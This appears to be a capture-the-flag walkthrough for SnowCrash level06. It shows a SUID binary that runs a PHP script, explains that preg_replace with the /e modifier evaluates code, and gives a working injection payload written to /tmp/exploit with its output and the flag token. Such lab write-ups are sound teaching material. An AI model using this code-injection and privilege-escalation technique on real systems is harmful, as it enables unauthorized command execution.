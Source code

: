 1. **File Search**

    ```bash
    level06@SnowCrash:~$ ll
    [...]
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
    [...]
    ```  
    File with SUID permissions, we use the `strings` command to search for readable text:
    ```bash
    level06@SnowCrash:~$ strings level06
    [...]
    /home/user/level06/level06.php
    [...]
    ```  
    The executable `level06` appears to be a program that uses `PHP` to execute the file `/home/user/level06/level06.php`. Since it has the `SUID` bit enabled, any action performed by this program will be executed with the privileges of the `flag06` user. This suggests that the PHP file could be key to exploitation. The next step would be to try to read the `level06.php` file to analyze its content and look for vulnerabilities.

2. **Vulnerability**

    ```bash
    level06@SnowCrash:~$ cat /home/user/level06/level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ``` 
    The file `level06.php` contains PHP code that appears to be vulnerable due to the use of the `preg_replace` function with the `/e` modifier. This modifier allows arbitrary PHP code execution within a regular expression, which can be exploited.
    Code Analysis:
    1. Function `y($m)`:
        - Replaces dots `(.)` with `" x "` and `@` characters with `" y"`.
        - Does not seem dangerous on its own.
    2. Function `x($y, $z)`:
        - Reads the content of a file specified in `$y` using `file_get_contents`.
        - Uses `preg_replace` with the `/e` modifier to execute PHP code within the regular expression.
        - Replaces brackets `[ and ]` with parentheses `( and )`.
    3. Execution:
        - The script takes two command-line arguments `($argv[1] and $argv[2])`.
        - Calls the `x` function with these arguments and displays the result.

3. **Exploitation**

    We create a malicious script that injects PHP code:
    ```bash
    echo '[x {${system(getflag)}}]' > /tmp/exploit
    ```
    Pass the file as an argument to the script:
    ```bash
    level06@SnowCrash:~$ ./level06 /tmp/exploit
    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
    ```



